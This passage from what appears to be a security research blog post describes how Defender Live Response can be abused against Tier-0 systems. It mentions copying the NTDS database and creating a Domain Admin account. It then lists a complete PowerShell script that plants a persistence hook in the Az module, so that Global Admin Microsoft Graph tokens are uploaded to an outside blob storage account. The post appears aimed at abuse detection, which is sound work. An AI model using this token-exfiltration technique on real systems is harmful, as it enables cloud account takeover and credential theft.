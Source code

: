 Transcript will be stored alongside to other temporary files in the following folder on the endpoint:

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponse7.png)

All executed commands will be visible in the command log:

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponse8.png)

As you can see in the screenshot, I’ve also used the `getfile` command to get an copy of the NTDS database file. In general, many malicious activities can be executed within security context.

**Result: Domain Admin with pre-defined user name and password has been created successfully.** 

### Exfiltrate access tokens of Global Admin from Azure PowerShell by adding custom PostImportScript

Az PowerShell module allows to load a custom script after initialization by placing a script file to the “PostImportScripts” folder. This will be abused to run the `Get-AzAccessToken` cmdlet as soon the administrator is using an “Az.Resource” cmdlet (e.g. `Get-AzResourceGroup`). Furthermore, the script will create an access token for Microsoft Graph or Azure ARM API and exfiltrate them to a blob storage. 

The following script (Copy-AzTokenPostImportScripts.ps1) will be executed in the Live Response command console to create the previously described script file. 

```powershell
Param(
    [Parameter(Mandatory=$False)]
    [string]$User = "AdminAccount",

    [Parameter(Mandatory=$False)]
    [string]$ModulePath = "C:\Users\$($User)\Documents\PowerShell\Modules\Az.Resources\6.5.3"
)

$Content = '
    $BlobAccountName = "YourBlobStorage"
    $BlobSAStoken = "Secret"
    $ExportFolder = $env:Temp
    $ExportFileName = "MSGraph_access_token.txt"
    $ExportFilePath = $ExportFolder + "\" + $ExportFileName
    (Get-AzAccessToken -ResourceTypeName MSGraph).Token | Out-File $ExportFilePath

    $Uri = "https://$($BlobAccountName).blob.core.windows.net/token/$($ExportFileName)?$($BlobSAStoken)
    $headers = @{"x-ms-blob-type" = "BlockBlob"}
    Invoke-RestMethod -Uri $uri -Method Put -Headers $headers -InFile $file'
    
New-Item -Path "$ModulePath\PostImportScripts" -Name "Token.ps1" -ItemType "File" -Value $Content -Force
```

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponse9.png)
